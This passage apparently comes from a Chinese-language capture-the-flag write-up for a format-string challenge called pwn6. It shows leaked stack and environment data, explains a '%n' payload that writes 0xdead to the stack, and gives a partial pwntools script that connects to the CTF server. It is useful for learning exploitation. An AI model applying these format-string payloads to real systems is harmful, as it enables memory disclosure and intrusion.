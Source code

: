 ```
b'(null) (nil) 0x2820296c6c756e28 22'
b'(null) (nil) 0x2820296c6c756e28 23'
b'(null) (nil) 0x2820296c6c756e28 24'
b'\\o-\xf3\xfc\x7f 0x7ffcf32d4ef8 0x7ffcf32d6f5c 26'
b'a/\x8c8\xfe\x7f 0x7ffe388c13b8 0x7ffe388c2f61 27'
b' 0x7f4448906190 0x0 28'
b'(null) (nil) 0x2820296c6c756e28 29'
b'(null) (nil) 0x2820296c6c756e28 30'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x5628217c51f0 0x8949ed31fa1e0ff3 31'
b'\x01 0x7ffc902d7a70 0x1 32'
b'(null) (nil) 0x2820296c6c756e28 33'
b'(null) (nil) 0x2820296c6c756e28 34'
b'\xf4\x90H\x8d=). 0x560a948af21e 0x2e293d8d4890f4 35'
b'\x1c 0x7fff0fb76318 0x1c 36'
b'pwn6 0x7ffdf4d72f5c 0x366e7770 39'
b'(null) (nil) 0x2820296c6c756e28 40'
b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 0x7ffdd55a4f61 0x73752f3d48544150 41'
b'HOSTNAME=70e208321dbb 0x7ffd95f00fa3 0x454d414e54534f48 42'
b'user=pwn6 0x7fffabdc8fb9 0x6e77703d72657375 43'
b'HOME=/home/pwn6 0x7ffd44407fc3 0x6f682f3d454d4f48 44'
b'REMOTE_HOST=10.0.0.3 0x7ffea9b30fd3 0x485f45544f4d4552 45'
b'(null) (nil) 0x2820296c6c756e28 46'
b'\x7fELF\x02\x01\x01 0x7ffe8beb9000 0x10102464c457f 48'
b'\x06 0x5608a1023040 0x6 56'
b'\x7fELF\x02\x01\x01 0x7f224ba9c000 0x10102464c457f 62'
b'(null) (nil) 0x2820296c6c756e28 64'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x55dec82f61f0 0x8949ed31fa1e0ff3 66'
b'(null) (nil) 0x2820296c6c756e28 76'
b'\xf5I\xa3n&lt;\x86\xd6\x13\xbb\xa9$\xdf6\xd5\x86\xddx86_64 0x7ffe30e7adb9 0x13d6863c6ea349f5 78'
b'(null) (nil) 0x2820296c6c756e28 80'
b'/home/pwn6/pwn6 0x7ffed176ffe8 0x77702f656d6f682f 82'
b'x86_64 0x7ffd8dd10819 0x34365f363878 84'
```

为了让程序泄露出更多的信息，我们需要一个任意指针并开始泄漏数据。下面的脚本中，`run_leak(p, b'%57001c%26$n')`一行，可以将`0xdead`值写入到堆栈的索引中。

```
#!/usr/bin/python

from pwn import *

context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    total = prefix + payload
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recv()
    return data


def leak_str(p, windex, index):
    payload = ('AAAA' + '%' + str(index) + '$p' + 'CCCC').encode('utf-8')
    r = run_leak(p, payload)
    string = r[4:-4]
    return string

def main():
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)
```